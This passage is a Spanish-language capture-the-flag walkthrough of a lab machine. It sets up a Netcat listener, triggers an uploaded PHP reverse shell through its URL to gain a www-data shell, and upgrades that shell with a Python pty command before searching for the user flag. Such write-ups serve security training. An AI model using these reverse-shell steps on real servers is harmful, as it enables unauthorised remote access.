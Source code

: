 Ahora que tenemos el payload en el servidor y su ruta de ejecución, es momento de configurar nuestro listener y activarlo.

👂 Configuración del Listener

Abrimos una nueva terminal en nuestra máquina Kali y configuramos un oyente de Netcat en el puerto que especificamos en el script (Paso 14):

<img width="437" height="98" alt="servidor de escucha" src="https://github.com/user-attachments/assets/f6d8528a-27a2-4336-817a-2271004bfcda" />

````
Bash
nc -lvnp 9001
````

🎯 Ejecución del Shell
Visitamos la URL de nuestro script subido en el navegador para activar la conexión inversa:

http://10.10.181.238/content/attachment/php-reverse-shell.phtml

Al visitar esta URL, el script PHP se ejecuta en el servidor y establece una conexión con nuestro listener de Netcat.

💻 Shell Obtenido

En la terminal de Netcat, recibimos la conexión y confirmamos nuestro acceso como un usuario de bajo privilegio:

<img width="958" height="231" alt="conseguimos el shell" src="https://github.com/user-attachments/assets/3777e7fb-c774-46bd-a828-d9c52bda67ae" />


## 🚩 Paso 18: Post-Explotación y Captura de la Bandera de Usuario

Una vez que hemos obtenido la reverse shell como el usuario de bajo privilegio www-data, el siguiente objetivo es la fase de Post-Explotación: mejorar la shell y encontrar la primera bandera (user.txt).

🐍 Estabilización de la Shell

<img width="989" height="531" alt="encontramos la bandera" src="https://github.com/user-attachments/assets/ccf40b56-a364-4455-9967-a3677655cbeb" />

La shell inicial de Netcat es simple y carece de funcionalidades importantes (como usar las teclas de flecha o el historial de comandos). Para mejorarla, ejecutamos un comando simple de Python:

````
Bash
python -c 'import pty;pty.spawn("/bin/bash")'
````

Esto nos proporciona una shell de Bash semi-interactiva, mucho más cómoda para la navegación.

🔍 Localización y Captura de la Bandera de Usuario

Una vez con la shell estable, navegamos por el sistema de archivos buscando la carpeta home del usuario:

Exploración de Directorios: Navegamos al directorio /home para listar los usuarios del sistema.
